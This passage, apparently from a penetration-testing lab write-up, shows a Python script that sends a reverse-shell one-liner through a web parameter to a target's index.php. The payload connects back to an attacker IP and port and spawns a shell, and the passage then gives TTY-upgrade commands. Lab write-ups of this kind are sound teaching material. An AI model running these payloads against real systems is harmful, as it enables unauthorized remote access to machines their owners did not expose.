 ![ncat](images/ncat-listening.png)

Reverse shell for python3 was copied from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python) to our script and passed as a data parameter (with IP and port edited):
```python3
import requests

data = f"""/usr/bin/python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.254.2",54444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"""
params = {'a': f'{data}'}

response = requests.get('http://192.168.254.3/index.php', params=params)
content = response.content.decode()
print(''.join(content.split('\n')[:-2]))
```

Script was executed on our main machine and connection was established on our first target:
```console
$ proxychains python3 test.py
```

![startattack](images/pivot-start.png)
![connection established](images/connection-established.png)

TTY shell was spawned with:
```console
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL-Z
$ stty raw -echo; fg
$ export TERM=xterm
```